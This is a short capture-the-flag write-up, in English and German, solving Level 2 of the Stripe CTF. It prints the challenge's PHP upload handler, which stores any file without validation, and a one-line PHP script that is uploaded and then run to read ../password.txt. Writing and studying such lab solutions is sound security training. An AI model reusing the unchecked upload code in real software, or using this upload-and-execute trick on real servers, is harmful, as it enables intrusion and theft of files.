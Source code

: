 LEVEL 02
========

Simple file upload application. Filetypes were not checked, you can
upload anything... so let's upload a little PHP-Script to read
../password.txt.

---

You are now on Level 2, the Social Network. Excellent work so far! Social Networks are all the rage these days, so we decided to build one for CTF. Please fill out your profile at https://level02-2.stripe-ctf.com/user-XXXX. You may even be able to find the password for Level 3 by doing so.

The code for the Social Network can be obtained from git clone https://level02-2.stripe-ctf.com/user-XXXX/level02-code, and is also included below.

---

In Level 2 könnt ihr in einem "sozialen Netzwerk" ein Profilbild hochladen. Das funktioniert super!

    <?php
      session_start();

      if ($_FILES["dispic"]["error"] > 0) {
        echo "<p>Error: " . $_FILES["dispic"]["error"] . "</p>";
      }
      else
      {
        $dest_dir = "uploads/";
        $dest = $dest_dir . basename($_FILES["dispic"]["name"]);
        $src = $_FILES["dispic"]["tmp_name"];
        if (move_uploaded_file($src, $dest)) {
          $_SESSION["dispic_url"] = $dest;
          chmod($dest, 0644);
          echo "<p>Successfully uploaded your display picture.</p>";
        }
      }

      $url = "https://upload.wikimedia.org/wikipedia/commons/f/f8/" .
             "Question_mark_alternate.svg";
      if (isset($_SESSION["dispic_url"])) {
        $url = $_SESSION["dispic_url"];
      }
    ?>

Die oben stehende Routine ist für den Upload eurer Bilddatei verantwortlich. Auffällig ist hier, dass es keinerlei Validierung der Datei gibt. Ihr könnt im Endeffekt jede beliebige Datei hochladen. Wir wollen dringend die Datei _./password.txt_ auslesen! Was tun? Ein winziges PHP-Script schreiben, dass die anvisierte Datei öffnet und uns im Browser ausgibt.

    <?php
      echo trim(file_get_contents("../password.txt"));
    ?>

Danach einfach _uploads/eure_php.php_ ausführen, schon kennen wir das Passwort!